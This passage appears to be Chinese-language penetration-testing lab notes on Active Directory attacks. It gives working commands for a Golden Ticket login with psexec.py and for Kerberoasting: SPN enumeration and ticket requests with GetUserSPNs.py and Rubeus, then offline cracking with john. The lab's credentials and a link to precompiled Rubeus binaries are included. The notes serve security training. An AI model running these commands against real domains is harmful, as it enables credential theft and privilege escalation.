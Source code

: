 ```bash
cat /etc/hosts
echo 192.168.177.19 server2019.lpt.com | sudo tee -a /etc/hosts
```
Golden Ticket
```bash
psexec.py lpt.com/evil@server2019.lpt.com -k -no-pass -dc-ip 192.168.177.19
```

# Kerberoasting
用來攻擊Kerberoas運作的手法
```
什麼時候才會用到Kerberoas驗證方法?
1. 你的服務本來就指令Kerberoas驗證
2. 你的服務註冊在AD之中

所以當你的服務沒有指定Kerberoas也沒有註冊在AD之中，就得走NTLM
```
Kerberoasting
```
1. Attcker通過LDAP先去查詢AD中有註冊哪些服務
2. 去做服務的存取，把Kerberoas流程run過一遍
3. Attacker會拿到TGST
4. Kerberoasting在於去破解TGST的帳號密碼
    Service Account
    Service Password
5. 破解完後
    可以操作服務帳號(服務帳號通常是特權帳號)
    或者去玩Sliver Ticket
```
Build Enviroment
```bash
# 2019DC
# Register service in AD
setspn -s $ServiceName/lpt.com $UserName
setspn -s http/lpt.com user-one  # 必須是DC內本來就存在的帳號
```
Kerberoasting in Linux
```bash
# Parrot
echo 192.168.177.19 server2019.lpt.com | sudo tee -a /etc/hosts
# SPN scan : LDAP服務查詢
GetUserSPNs.py 'lpt.com/cpent:Pa$$w0rd' -dc-ip 192.168.177.19
# Request
GetUserSPNs.py 'lpt.com/cpent:Pa$$w0rd' -dc-ip 192.168.177.19 -request -outputfile kerberoast.txt
# 破解
john kerberoast.txt
```
Kerberoasting in Windows
```bash
# AD Win 用一般或本地使用者
lpt\cpent


# Rubeus
# 專案中沒有執行檔，但你可去搜尋rubeus precompiled
# https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Rubeus.exe


# SPN scan : LDAP服務查詢
# Domain
Rubeus.exe kerberoast /domain:lpt.com
# Local 
Rubeus kerberoast /domain:lpt.com /creduser:lpt.com\cpent /credpassword:Pa$$w0rd

```